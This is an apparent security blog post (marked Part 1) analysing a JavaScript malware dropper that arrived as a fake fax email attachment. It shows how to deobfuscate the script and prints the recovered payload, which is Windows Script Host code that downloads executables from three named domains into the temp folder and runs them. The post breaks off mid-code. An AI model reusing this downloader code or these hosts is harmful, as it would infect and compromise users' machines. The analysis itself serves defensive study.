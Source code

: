 ```yaml
---
layout: post
title:  The raise of Javascript-droppers (Part 1)
date:   2015-11-29 13:13:13
categories: IT-Sec
---
```


![interfaxgraphic]({{ sitebase.url }}/img/behaviour.jpg)
A few weeks ago, i got the following email:

{% highlight text %}
New incoming fax document.

Scanned fax document is attached to this email.

Sender:            Lonnie Sloan
File name:         scan-00273548.doc
Scan duration:     48 seconds
Scanned:           Thu, 29 Oct 2015 16:04:40 +0300
Filesize:          186 Kb
Resolution:        600 DPI
Pages scanned:     10

Thanks for using Interfax service!
{% endhighlight %}

First I've thought thats just spam as usual. But this time it should be a 
big malware campaign. Let us check out the attachment *scan-00273548.zip*.
If we unpack the zip-archive we will get a .doc.js file.. nice try. 

![sourcecode of .doc.js file]({{ sitebase.url }}/img/img-2015-11-29-174834.png)

Ok thats messy. I've found a simple regex for deobfuscating it: *%s/; };/;
};\r/g*. Now we have one function per line and can watch over it without
headache. Seems like it's some simple arithmetic. They have in every function a
string and just return the string for adding the string with another string.
And the last function is executing the constructed string. In this sample this
payload lies in the *mzvc*-variable:

{% highlight JavaScript %}
var b = "hourlywhy.com yoakumdentalcare.com ncdivers.com".split(" "); 
var ws = WScript.CreateObject("WScript.Shell"); 
var fn = ws.ExpandEnvironmentStrings("%TEMP%")+String.fromCharCode(92)+"377492"; 
var xo = WScript.CreateObject("MSXML2.XMLHTTP"); 
var xa = WScript.CreateObject("ADODB.Stream"); 
var ld = 0; 
for (var n=1; n<=3; n++) { 
  for (var i=ld; i<b.length; i++) { 
    var dn = 0; 
    try { 
      xo.open("GET","http://"+b[i]+"/counter/?id="+str+"&rnd=167506"+n, false); 
      xo.send(); 
      if (xo.status == 200) { 
        xa.open(); 
        xa.type = 1; 
        xa.write(xo.responseBody); 
        if (xa.size > 1000) { 
          dn = 1; 
          xa.position = 0; 
          xa.saveToFile(fn+n+".exe",2); 
          try {  ws.Run(fn+n+".exe",1,0); } 
          catch (er) { }; 
        }; 
        xa.close(); 